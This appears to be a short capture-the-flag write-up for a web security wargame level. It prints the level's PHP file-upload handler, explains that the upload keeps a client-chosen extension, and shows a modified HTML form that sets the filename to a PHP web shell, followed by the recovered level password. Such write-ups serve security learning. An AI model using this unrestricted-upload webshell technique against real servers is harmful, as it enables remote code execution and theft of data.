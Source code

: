 # Solution
```php
<?php  
  
function genRandomString() {    $length = 10;    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";    $string = "";  
  
    for ($p = 0; $p < $length; $p++) {        $string .= $characters[mt_rand(0, strlen($characters)-1)];  
    }  
  
    return $string;  
}  
  
function makeRandomPath($dir, $ext) {  
    do {    $path = $dir."/".genRandomString().".".$ext;  
    } while(file_exists($path));  
    return $path;  
}  
  
function makeRandomPathFromFilename($dir, $fn) {    $ext = pathinfo($fn, PATHINFO_EXTENSION);  
    return makeRandomPath($dir, $ext);  
}  
  
if(array_key_exists("filename", $_POST)) {    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);  
  
  
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {  
        echo "File is too big";  
    } else {  
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {  
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";  
        } else{  
            echo "There was an error uploading the file, please try again!";  
        }  
    }  
} else {  
?>
```

what this means, in short is that the frontend will have a pre-appended name to the file. the backend will change that once more time, ONLY the name and not the extension.
=> If frontend's filename is changed to something with a php extension, it will keep that extension on the backend.


We can change the response to whatever as long as it is php executable:
```
<div id="content">

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="php_webshell.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Upload our shell and get the password:
```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```